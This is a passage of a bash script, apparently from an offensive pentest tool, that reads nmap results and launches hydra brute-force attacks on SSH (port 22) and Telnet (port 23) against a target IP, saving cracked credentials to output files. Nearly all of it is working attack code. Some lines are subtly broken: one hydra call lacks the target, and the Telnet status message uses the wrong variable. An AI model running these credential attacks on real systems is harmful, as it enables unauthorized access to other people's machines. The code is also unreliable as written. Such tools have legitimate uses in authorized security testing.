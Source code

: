   #  Port 22 - (SSH)
  BruteSSH(){
    # - Name:
    # - Version:
    # - Protocol:
    # - RSA-key-fingerprint:
    # - Takes-password:
    # If you have usernames test login with username:username
    if grep -q 22/tcp nmap.log; then
      BruteSSH_Open="$(echo "        ${BBlue}|──[${BRed} 🎯 ${BBlue}]──╼ ${BGreen} Port 22(SSH) is open. Starting bruteforce...\n")"
      AfterBruteSSH="${BruteSSH_Open}"
      echo "${AfterBruteSSH}"
		  sleep 1
		  hydra -C $ssh_up ${targetIP} ssh -e ns -o Output/${targetIP}/ssh_${targetIP}.txt -I -V -t $thread
      hydra -L $ssh_u -P $ssh_p ${targetIP} ssh -e ns -o Output/${targetIP}/ssh1_${targetIP}.txt -I -V -t $thread
		  hydra -L $user -p $pass ssh -e ns -o Output/${targetIP}/ssh2_${targetIP}.txt -I -V -t $thread
      Finished_Brute "${targetIP}"
    else
      BruteSSH_Close="$(echo "        ${BBlue}|──[${BRed} ❌ ${BBlue}]──╼ ${BRed} Port 22(SSH) is not open. Skipping to next port...")"
      AfterBruteSSH="${BruteSSH_Close}"
      echo "${AfterBruteSSH}"
    fi
  }
  BruteSSH

  #  Port 23 - (Telnet)
  BruteTelnet(){
    if grep -q 23/tcp nmap.log; then
      BruteTelnet_Open="$(echo "        ${BBlue}|──[${BRed} 🎯 ${BBlue}]──╼ ${BGreen} Port 23(Telnet) is open. Starting bruteforce...\n")"
      AfterBruteTelnet="${BruteTelnet_Close}"
      echo "${AfterBruteTelnet}"
      sleep 1
      hydra -C $telnet_up ${targetIP} telnet -e ns -o Output/${targetIP}/telnet_${targetIP}.txt -I -V -t $thread
      hydra -L "$telnet_u" -P "$telnet_p" "${targetIP}" telnet -e ns -o Output/"${targetIP}"/telnet1_"${targetIP}".txt -I -V -t $thread
      hydra -L $user -P $pass ${targetIP} telnet -e ns -o Output/${targetIP}/telnet2_${targetIP}.txt -I -V -t $thread
      Finished_Brute "${targetIP}"
    else
      BruteTelnet_Close="$(echo "        ${BBlue}|──[${BRed} ❌ ${BBlue}]──╼ ${BRed} Port 23(Telnet) is not open. Skipping to next port...")"
      AfterBruteTelnet="${BruteTelnet_Close}"
      echo "${AfterBruteTelnet}"
    fi
  }
  BruteTelnet
